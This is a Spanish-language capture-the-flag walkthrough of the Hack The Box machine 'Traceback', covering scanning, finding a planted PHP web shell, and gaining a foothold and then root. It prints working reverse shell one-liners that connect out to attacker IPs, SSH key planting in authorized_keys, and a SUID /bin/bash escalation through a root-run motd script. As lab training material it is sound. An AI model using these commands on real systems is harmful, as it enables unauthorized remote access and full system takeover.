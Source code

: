 # TRACEBACK MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.181 -oG allPorts
```

La salida nos muesta el puerto 22 y 80 abiertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p22,5000 -sV -sC 10.10.10.181 -oN targeted
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/3.PNG)

vamos a revisar la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/4.PNG)

tiene un mensaje de que alguien dejo un backdoor, vamos a revisar el codigo fuente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/5.PNG)

vemos un mensaje comentado: **Some of the best web shells that you might need**

si buscamos en google y vamos al primer enlace nos lleva a un repositorio de github:

[https://github.com/TheBinitGhimire/Web-Shells](https://github.com/TheBinitGhimire/Web-Shells)

vemos que son varias webshell, vamos a armar un diccionario con las webshells en PHP (ya que el servidor tiene un apache y al parecer interpreta PHP) y con ese diccionario vamos a fuzzear:

```bash
wfuzz -c --hw=195 --hc=404 -w dict.txt  http://10.10.10.181/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/6.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/7.PNG)

vemos que encontro la ruta **smevk.php** vamos a ver que hay ahi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/8.PNG)

es un simple inicio de sesion, vamos a poner credenciales por defecto como **admin:admin** y vemos como ingresamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/9.PNG)

si vamos al apartado de **console** vemos que se ejecutan comandos del sistema:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/10.PNG)

## EXPLOTACION

si interceptamos con burpsuite vemos como se envia el comando:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/11.PNG)

si modificamos el comando y nos spawneamos un reverse shell con python3 o bash y lo reenviamos por el repiter vemos que nos conectamos:

```bash
python3+-c+'import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'+&
```

ponemos al final **&** para que se ejecute esa tarea en segundo plano:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/12.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/13.PNG)

si vamos a la ruta **/home/webadmin** vemos la carpeta **.ssh** con un archivo **authorized_keys**, vamos a generar un par de claves ssh para poder ingresar por SSH con esa llave:

```bash
ssh-keygen
```

esto creara un par de claves **id_rsa y id_rsa.pub**

la llave **id_rsa** nos la pasamos a nuestro equipo por un servidor con python y le damos el sigueinte permiso:

```bash
chmod 600 id_rsa
```

la llave publuca **id_rsa.pub** su contenido la colocamos en authorized_keys:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/14.PNG)

y nos conectamos con la id_rsa:

```bash
ssh -i id_rsa webadmin@10.10.10.181
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/15.PNG)

## ELEVACION DE PRIVILEGIOS

si hacemos:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/16.PNG)

podemos ejecutar como sudo a traves del usuario sysadmin un script

ademas vemos que sysadmin dejo una nota en **/home/webadmin/notes.txt**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/17.PNG)

entonces vamos a buscar que es **luvit** en google y tenemos el sigueinte resulta del primere enlace:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/18.PNG)

y podemos ejecutar scripts en lua:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/19.PNG)

ademas se tiene contenido en el archivo bash_history:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/20.PNG)

asi que vamos a poner el siguiente contenido en un archivo llamado **privesc.lua**:

```bash
require('os');os.execute("python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.13\",4343));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")' &")

```

ya sabemos como ejecutar gracias al bash history:

```bash
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

nos colocamos a la escucha y tenemos una conexion como sysadmin:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/21.PNG)

y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/22.PNG)

ahora vamos a pasarnos el pypy64 para ver tareas cron que se esten ejecutando, lo ejecutamos dandole permisos de ejecucion primero:

```bash
chmod +x pspy64
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/23.PNG)

vemos que se ejecuta al cada 30 segundos (sleep 30) en la ruta **/etc/update-motd.d**, si vamos a esa ruta vemos los sigueintes archivos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/24.PNG)

vemos que tenemos permisos de escritura, vamos a ver el archivo **00-header**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/25.PNG)

es un script en bash y su contenido se parece a lo que sale en el banner cuando nos conectamos por ssh:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/26.PNG)

como el que lo ejecuta es root podemos agregar permisos suid para la **/bin/bash**

```bash
chmod 4755 /bin/bash
```

y vamos intentar conectarnos por ssh para que salga el banner y ejecute lo que colocamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/26.PNG)

si vemos los permisos de **/bin/bash**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/27.PNG)

ahora es cuestion de hacer:

```bash
/bin/bash -p
```

y ya somos root y podemos ver la flag;

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/28.PNG)
